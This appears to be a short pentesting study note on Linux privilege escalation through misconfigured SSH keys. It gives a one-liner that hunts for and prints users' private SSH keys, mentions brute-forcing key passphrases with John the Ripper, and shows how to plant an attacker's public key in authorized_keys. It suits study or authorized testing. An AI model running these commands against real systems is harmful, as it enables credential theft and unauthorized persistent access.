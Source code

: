 [Linux Privilege Escalation - Exploiting Misconfigured SSH Keys - StefLan's Security Blog (steflan-security.com)](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/)

```sh
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```

If SSH Private Key require a **Password**, then Bruteforce the Private Key *id_rsa* with [[John The Ripper]]

Check for the Encryption Algorithm used in `authorized_keys`!

#### If WRITE access is available to a users `/.ssh/` directory :-
- We can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`
```sh
ssh keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
```

This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will *copy* to the remote machine.

```sh
# In Attacking machine
cat key.pub >> /root/.ssh/authorized_keys
```